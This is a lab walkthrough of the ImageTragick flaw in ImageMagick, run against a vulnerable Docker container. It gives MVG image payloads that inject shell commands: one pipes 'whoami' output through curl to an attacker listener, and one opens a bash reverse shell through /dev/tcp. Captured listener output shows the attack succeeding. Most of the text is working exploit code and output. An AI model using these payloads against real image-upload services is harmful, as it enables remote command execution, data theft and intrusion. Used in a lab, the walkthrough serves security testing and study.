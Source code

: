 #### 3.1. About

Repo: `https://github.com/ImageTragick/PoCs`

Setup:
```
# docker pull craighurley/docker-imagetragick
# docker run -d --name imagetragick -p 8080:8080 craighurley/docker-imagetragick
```


#### 3.2. Testing for vulnerability

Test file - original:
```
# md5 111.jpg
MD5 (111.jpg) = 3e5eb1ca377db6054cf921e322e0468e
# http -f POST http://172.16.201.160:8080/ file@/tmp/111.jpg
```

Test file - uploaded:
```
[root@161c0e047c5f app]# md5sum */*
b8f66b55f5b4abdb89019e60ab26bd49  converted/111.jpg.jpg
3e5eb1ca377db6054cf921e322e0468e  uploads/111.jpg
```
Note: uploaded image will be converted to JPG file


Test vulnerability with HTTP request to attacker's box:
```
# cat > payload.jpg << EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(http://172.16.201.160:9999)'
pop graphic-context
EOF
# http -f POST http://172.16.201.160:8080/ file@/tmp/payload.jpg >/dev/null
```

Listener:
```
# python -m SimpleHTTPServer 9999
172.17.0.3 - - [12/Nov/2018 10:36:52] "GET / HTTP/1.0" 200 -
```


#### 3.3. Exploitation

Payload:
```
# cat > payload.jpg << EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|whoami|curl -F :data=@- http://172.16.201.160:9999")'
pop graphic-context
EOF
# http -f POST http://172.16.201.160:8080/ file@/tmp/payload.jpg >/dev/null
```

Listener:
```
# ncat -nlvp 9999
Ncat: Version 7.70SVN ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.17.0.3.
Ncat: Connection from 172.17.0.3:44320.
POST / HTTP/1.1
User-Agent: curl/7.29.0
Host: 172.16.201.160:9999
Accept: */*
Content-Length: 199
Expect: 100-continue
Content-Type: multipart/form-data; boundary=----------------------------0cea23a18a03

------------------------------0cea23a18a03
Content-Disposition: form-data; name=":data"; filename="-"
Content-Type: application/octet-stream

root

------------------------------0cea23a18a03--
```

#### 3.3. Reverse shell

```
# cat > payload.jpg << EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|bash -i >& /dev/tcp/192.168.209.146/9999 0>&1")'
pop graphic-context
EOF
```
